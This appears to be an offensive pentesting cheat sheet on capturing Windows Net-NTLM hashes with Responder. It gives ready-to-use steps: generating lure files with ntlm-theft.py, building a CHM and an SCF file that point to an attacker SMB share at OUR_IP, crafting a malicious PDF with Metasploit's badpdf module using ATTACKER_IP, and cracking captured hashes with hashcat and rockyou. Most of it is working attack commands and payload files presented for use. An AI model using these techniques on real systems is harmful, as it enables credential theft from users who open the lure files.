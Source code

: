 ## Net-NTLM Hash stealing with Responder

## Tools synergizing with Responder: ntlm-theft.py

### Requirements: The user you want to escalate to should react with your malicious file/responder SMB server in a way that it calls back to your responder listener to dump his Net-NTLM hash to crack with hashcat.

### Usage:

     sudo responder -I tun0 (Turn on responder)

## There are various ways to steal hashes with responder, but they have all similar philosophy behind the technique

### .LNK Files

#### 1) Generates any malicious file it can make (LNK included) all inside the specified folder name

     python3 ntlm-theft.py -g all -s OUR_IP -f FOLDER 
     
#### 2) Start responder

     sudo responder -I tun0 

#### 3) Upload malicious file to the target SMB server/target machine (Depends on the context of the use case your are dealing with)

#### 4) PROFIT

### .CHM Files

#### 1) Create an HTML document that points to your SMB server

     <html>
       <body>
         <img src=\\OUR_IP\share\WHATEVER.png />
            </body>
     </html>

#### 2) On a windows machine, use the HTML Help Workshop https://www.microsoft.com/en-us/download/confirmation.aspx?id=21138

#### 3) Open HTML Help Workshop then go to: File -> New -> Project. Save at any folder you like

#### 4) In the next window, click the box to include HTML files

#### 5) Select your created HTML file here

#### 6) In the tool bar, click the compile button. Then when prompted, click compile.

#### 7) Copy your compiled .chm file to your linux machine, then upload it to your target machine.

#### 8) PROFIT!

### .SCF Files

#### 1) Create an .scf file that points to your SMB server

     [Shell]
     Command=2
     IconFile=\\OUR_IP\share\pwn.ico
     [Taskbar]
     Command=ToggleDesktop

#### 2) sudo responder -I INTERFACE (Start responder)

#### 3) Upload the .scf file to a writebale SMB share

#### 4) Crack the hash you captured with hashcat

### .PDF Files

Use the metasploit module to craft a malicious PDF file

    use auxiliary/fileformat/badpdf

Set correct parameters

    set FILENAME filename.pdf

    set LHOST ATTACKER_IP

    exploit

Run responder

    sudo responder -I INTERFACE

Upload file to target server, then wait for someone to click on the file to capture his NetNTLMv2 hash.

Crack it with hashcat

    hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
